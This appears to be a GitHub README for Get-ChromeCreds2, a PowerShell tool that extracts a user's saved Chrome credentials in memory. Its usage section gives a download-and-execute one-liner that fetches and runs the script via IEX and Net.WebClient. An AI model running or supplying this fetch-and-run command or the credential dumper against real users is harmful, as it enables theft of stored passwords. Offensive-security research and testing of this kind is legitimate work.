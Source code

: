 # Get-ChromeCreds2

This script builds upon Sekirkity's [BrowserGather](https://github.com/sekirkity/BrowserGather) 
scripts as a memory-resident method of extracting the current user's Chrome credential 
repository.  

Read more [here](https://www.kerrymilan.com/dumping-chrome-creds-without-sqlite).

## Usage
Run locally:
`import-module .\Get-ChromeCreds2.ps1`

Download and run:
`IEX (New-Object Net.WebClient).DownloadString('Path\To\Get-ChromeCreds2.ps1')`
